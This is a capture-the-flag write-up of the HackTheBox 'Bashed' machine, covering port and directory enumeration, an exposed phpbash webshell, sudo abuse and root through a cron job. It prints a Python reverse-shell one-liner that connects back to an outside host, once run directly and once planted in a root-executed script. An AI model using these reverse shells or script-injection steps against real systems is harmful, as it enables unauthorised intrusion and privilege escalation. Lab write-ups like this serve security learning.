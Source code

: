 ```yaml
---
permalink: /posts/HTB/Bashed
title:  "HTB Bashed"
author: Luc Kolen
description: "Bashed is an easy Linux machine on HTB"
categories:
  - CTF
  - HTB
tags:
  - HTB-Easy
  - Linux
  - Gobuster
  - Nikto
---
```

# 10.10.10.68 - Bashed

- [10.10.10.68 - Bashed](#10101068---bashed)
  - [Open ports](#open-ports)
  - [HTTP](#http)
  - [Privilege escalation](#privilege-escalation)
  - [TL;DR](#tldr)
  - [Bonus](#bonus)
    - [Why the privilege escalation worked](#why-the-privilege-escalation-worked)

## Open ports

```bash
luc@kali:~/HTB/Bashed$ nmap -vv --reason -Pn -A --osscan-guess --version-all -p- 10.10.10.68
```

|Port|Service|Version
|---|---|---|
80/tcp|http|Apache httpd 2.4.18 ((Ubuntu))

## HTTP

The website only has one post and it's about [phpbash](https://github.com/Arrexel/phpbash) and that it was developed on the webserver we're currently connecting to.

```bash
luc@kali:~/HTB/Bashed$ gobuster dir -u http://10.10.10.68 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
...
/dev (Status: 301)
...
luc@kali:~/HTB/Bashed$ nikto -url http://10.10.10.68
...
+ OSVDB-3268: /dev/: Directory indexing found.
...
```

Both Gobuster and Nikto found a `/dev` directory on the webserver. Browsing to this directory we can see `phpbash.min.php` and `phpbash.php`, this matches the post about it being developed on this machine. Opening `http://10.10.10.68/dev/phpbash.php` gives us a webshell.

```bash
www-data@bashed:/var/www/html/dev# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@bashed:/var/www/html/dev# cd /home/arrexel
www-data@bashed:/home/arrexel# cat user.txt
2c281f31************************
```

We're running as `www-data` and we can read the `user.txt` file.

## Privilege escalation

```bash
www-data@bashed:/var/www/html/dev# sudo -l
Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

We can run all commands as the `scriptmanager` user.

```bash
www-data@bashed:/# which python
/usr/bin/python
www-data@bashed:/# python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.16",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

```bash
luc@kali:~/HTB/Bashed$ sudo nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.68.
Ncat: Connection from 10.10.10.68:45786.
www-data@bashed:/$ sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/$ id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

We're able to run sudo now because we're in an interactive shell instead of the phpbash webshell.

```bash
scriptmanager@bashed:/$ ls -lsa
...
4 drwxrwxr--   2 scriptmanager scriptmanager  4096 Jun 17 12:13 scripts
...
scriptmanager@bashed:/$ ls scripts -lsa
...
4 -rw-r--r--  1 scriptmanager scriptmanager  283 Jun 17 11:59 test.py
4 -rw-r--r--  1 root          root            12 Jun 17 11:59 test.txt
...
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
testing 123!
```

We can see that scriptmanager owns the `test.py` script, but that `test.txt` is owned by `root`. So we know that `root` has executed the script. Both files are created on the same date so there is a good chance that there is a crontab running as `root` that executes this file. We'll check this in [Bonus](#bonus).

```bash
scriptmanager@bashed:/scripts$ cat test.py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.16",444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")

f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

```bash
luc@kali:~/HTB/Bashed$ sudo nc -lnvp 444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::444
Ncat: Listening on 0.0.0.0:444
Ncat: Connection from 10.10.10.68.
Ncat: Connection from 10.10.10.68:58562.
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cc4f0afe************************
```

We add the same Python reverse shell we used earlier (but now on port 444) to the `test.py` file. This triggers a reverse shell as `root` a few seconds later.

## TL;DR

- `phpbash.php` was left on the webserver in the `dev` folder
- `www-root` can run as `scriptmanager`
- `scriptmanager` can edit/create scrips that `root` will execute

## Bonus

### Why the privilege escalation worked

```bash
# crontab -l
* * * * * cd /scripts; for f in *.py; do python "$f"; done
```

As root we can read the crontab to see what tasks are scheduled to run. We see that it goes over all `.py` files in `/scripts` and executes them. We could've also created another file instead of adding our code to the `test.py` file.
